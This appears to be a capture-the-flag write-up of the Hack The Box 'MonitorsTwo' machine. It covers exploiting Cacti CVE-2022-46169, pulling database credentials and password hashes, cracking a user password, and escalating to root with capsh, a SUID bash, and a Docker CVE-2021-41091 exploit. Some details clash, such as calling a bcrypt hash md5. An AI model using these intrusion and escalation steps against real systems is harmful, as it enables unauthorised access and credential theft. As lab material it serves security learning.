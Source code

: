 # HTB MonitorsTwo

## Info
ip: 10.10.11.211

htb easy

linux

Topics: web service exploitation, DB credentials, Docker, SUID

## Info gathering
When doing ping we can see that we are against a Linux VM since ping is close to 64

After an nmap scan through the whole port range we spot open ports 22 and 80.

Then we can investigate more on those ports and get
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Login to Cacti
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Seems like it's running cacti. A network monitoring software. after a simple GET / request to the port 80 we see that it is running Cacti 1.2.22. Which has a dangerous vulnerability `CVE-2022-46169`


## Exploitation to get first access
In the port 80 it's running cacti, a network monitoring software. After a simple GET / request to the port 80 we see that it is running Cacti 1.2.22. Which has a dangerous vulnerability `CVE-2022-46169` which allows RCE. CVE score is 9.8.

I used https://github.com/FredBrave/CVE-2022-46169-CACTI-1.2.22 to open a shell into the machine.

Cacti seems to have a mysql/mariadb backend but I don't see any on localhost.

The machine runs Debian 11.

When reading [the manual of cacti](https://files.cacti.net/docs/html/unix_configure_cacti.html) we see that the config file is in `include/config.php`. So we can go there and expect to see the db credentials. And that was indeed the case:

```
$database_type     = 'mysql';
$database_default  = 'cacti';
$database_hostname = 'db';
$database_username = 'root';
$database_password = 'root';
$database_port     = '3306';
$database_retries  = 5;
$database_ssl      = false;
$database_ssl_key  = '';
$database_ssl_cert = '';
$database_ssl_ca   = '';
$database_persist  = false;
```
The hostname is `db`, but I don't see it on `/etc/hosts`.

I dont have neither nc, dig, nslookup or telnet to test connectivity with the DB or resolve the name.
But with getent I was able to resolve the hostname
```
bash-5.1$ getent hosts db
172.19.0.2      db
```
Seems like a separate host in the network or some container inside this one.

Then I went to connect to the DB with `mysql -h db -u root -proot`. And found credentials for accessing the web application.

Then I was able to get the users credentials from the users_auth table in the cacti schema:
```
admin    | $2y$10$IhEA.Og8vrvwueM7VEDkUes3pwc3zaBbQ/iuqMft/llx8utpR1hjC
guest    | 43e9a4ab75570f5b
marcus   | $2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C
```
I tried to login into the service but it's not going trough.

This machine is weird for a regular VM. This DB hostname seems weird to me. And the /etc/hosts also, seems like this is running in a docker. I checked for the `/.dockerenv` and it exists, so we can confirm that we are inside of a docker container.

I had to reset the password, which is an md5 to get access. Nothing interesting inside cacti.

I don't see any interesting vulnerability in mysql or nginx. At this point I'm guessing that marcus password is also reused as the password of the main host.

Decripted the md5 online and resulted on `funkymonkey`. So trying that for logging though SSH as `marcus`. It goes though and I get to retrieve the user flag.

## Privilege escalation

- No SUID files
- HAProxy only has a DOS vulnerability
- No crons
- No sudo permissions
- No docker group
- Docker is version 20.10.5, so it's vulnerable to CVE-2021-41091, but we are not root in any container. At least for now.

Mysql container seems tight in security but we already have some level of access in the cacti one. So let's attempt to do priv esc in that last one.

When checking the SUID files available we see the /sbin/capsh. In [GTFOBins](https://gtfobins.github.io/gtfobins/capsh/) we can see how to exploit it. With `capsh --gid=0 --uid=0 --` we'll turn our shell to root. After gaining access we need to run `chmod u+s /bin/bash`.

Once bash has SUID we can run the exploit for CVE-2021-41091 from the user `marcus` in the host where we already have access. [This](https://github.com/UncleJ4ck/CVE-2021-41091/blob/main/exp.sh) is the exploit I used. Then we have root access.

```
marcus@monitorstwo:/tmp$ cd /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
marcus@monitorstwo:/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged$ ./bin/bash -p
bash-5.1# cd /root/
bash-5.1# id
uid=1000(marcus) gid=1000(marcus) euid=0(root) groups=1000(marcus)
bash-5.1# whoami
root
```
